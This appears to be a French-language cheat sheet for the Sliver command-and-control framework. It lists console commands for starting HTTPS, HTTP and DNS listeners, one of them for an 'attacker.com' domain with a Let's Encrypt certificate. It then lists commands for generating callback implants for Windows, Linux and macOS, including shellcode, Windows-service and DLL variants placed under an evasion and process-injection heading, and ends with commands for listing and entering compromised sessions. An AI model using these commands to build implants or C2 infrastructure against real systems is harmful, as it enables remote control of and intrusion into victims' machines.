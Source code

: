 ### Setup HTTPS listener
```bash
# Dans console Sliver
https --lhost 0.0.0.0 --lport 443 --domain company.com

# Avec certificat Let's Encrypt
https --lhost 0.0.0.0 --lport 443 --domain attacker.com --lets-encrypt

# HTTP listener
http --lhost 0.0.0.0 --lport 80 --domain company.com
```

## 🎯 Génération d'Implants

### Implants HTTP/HTTPS
```bash
# Implant Windows HTTPS
generate --http https://company.com --arch amd64 --format exe --save /tmp/implant.exe

# Implant Linux HTTP
generate --http http://company.com --os linux --arch amd64 --format elf --save /tmp/implant

# Implant MacOS
generate --http https://company.com --os darwin --arch amd64 --format macho --save /tmp/implant
```

### Implants DNS
```bash
# DNS C2 implant
generate --dns company.com --arch amd64 --format exe --save /tmp/dns-implant.exe

# DNS avec domaine frontal
generate --dns company.com --canaries company.com,legitimate.com --save /tmp/implant.exe
```

### Implants avec evasion
```bash
# Implant avec process injection
generate --http https://company.com --strategy spawn --format shellcode --save /tmp/shellcode.bin

# Implant service Windows
generate --http https://company.com --format service --save /tmp/service.exe

# DLL implant
generate --http https://company.com --format shared --save /tmp/implant.dll
```

## 🔧 Gestion des Sessions

### Interaction avec implants
```bash
# Lister sessions actives
sessions

# Interagir avec session
use [SESSION_ID]

# Informations session
info

# Processus et système
ps
```